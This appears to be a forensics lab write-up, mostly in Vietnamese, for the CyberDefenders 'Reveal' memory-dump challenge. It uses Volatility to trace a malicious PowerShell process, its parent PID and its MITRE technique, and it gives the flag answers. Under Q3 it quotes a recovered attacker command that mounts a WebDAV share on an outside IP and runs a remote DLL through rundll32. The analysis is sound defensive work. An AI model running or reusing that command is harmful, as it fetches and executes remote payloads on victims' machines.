




# CyberDefenders Lab: Reveal Writeup

**Category:** Endpoint Forensics | **Difficulty:** Easy

**Scenario:** You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

---

### Q1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

*   **Cách làm:** Sử dụng plugin `windows.malware.malfind` để tìm kiếm các tiến trình có vùng nhớ bất thường bị tiêm mã độc (Code Injection).
*   **Thao tác thực hiện:** Chạy lệnh `python3 vol.py -f 192-Reveal.dmp windows.malware.malfind`. Kiểm tra kết quả, ta phát hiện tiến trình `powershell.exe` (PID: 3692) chứa phân vùng bộ nhớ có quyền `PAGE_EXECUTE_READWRITE` (Vừa ghi vừa thực thi). Đây là dấu hiệu cực kỳ khả nghi, cho thấy tiến trình đã bị lợi dụng để chạy mã độc (fileless malware) nhằm lẩn tránh Antivirus.
*   **Bằng chứng:**
    
*   **Flag:** `powershell.exe`

---

### Q2: Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?

*   **Cách làm:** Sử dụng plugin `windows.pstree` để vẽ cây tiến trình và xác định tiến trình cha.
*   **Thao tác thực hiện:** Chạy lệnh `python3 vol.py -f 192-Reveal.dmp windows.pstree`. Dựa vào kết quả xuất ra, tìm đến dòng của `powershell.exe` (PID: 3692). Đối chiếu sang cột PPID ngay cạnh nó, ta xác định được mã tiến trình cha là `4120`. *(Lưu ý: Một số tài liệu của hãng ghi nhầm thành 4210, nhưng kết quả phân tích thực tế trên RAM dump là 4120).*
*   **Bằng chứng:**
    
*   **Flag:** `4120`

---

### Q3: Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?

*   **Cách làm:** Phân tích Command Line (lịch sử dòng lệnh) của tiến trình mã độc.
*   **Thao tác thực hiện:** Từ kết quả của lệnh `windows.pstree` ở Câu 2, Volatility 3 hiển thị luôn câu lệnh thực thi tại cột ngoài cùng bên phải: 
    `powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`
    Dựa vào đoạn lệnh này, ta thấy kẻ tấn công đã dùng `rundll32.exe` để gọi file payload giai đoạn 2 có tên là `3435.dll`.
*   **Bằng chứng:**
    
*   **Flag:** `3435.dll`

---

### Q4: Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?

*   **Cách làm:** Bóc tách hành vi kết nối mạng từ Command Line của hacker.
*   **Thao tác thực hiện:** Cũng từ đoạn lệnh ở Câu 3, ta tập trung vào cú pháp `net use \\45.9.74.32@8888\davwwwroot\`. Lệnh này cho thấy mã độc đang ánh xạ (map) một thư mục chia sẻ từ xa qua giao thức WebDAV về máy nạn nhân. Tên của thư mục chia sẻ này là `davwwwroot`.
*   **Bằng chứng:**
    
*   **Flag:** `davwwwroot`

---

### Q5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

*   **Cách làm:** Tra cứu hành vi thực thi trên thư viện MITRE ATT&CK.
*   **Thao tác thực hiện:** Dựa vào câu lệnh ở Q3, mã độc đã sử dụng `rundll32.exe` - một công cụ hệ thống hợp pháp của Windows (LOLBAS - Living Off The Land Binaries and Scripts) - để thực thi file `.dll` nhằm qua mặt các giải pháp phòng thủ. Hành vi này tương ứng với kỹ thuật **Signed Binary Proxy Execution: Rundll32**.
*   **Bằng chứng:**
    *(Có thể tra cứu trực tiếp kỹ thuật này trên trang chủ MITRE ATT&CK)*
*   **Flag:** `T1218.011`
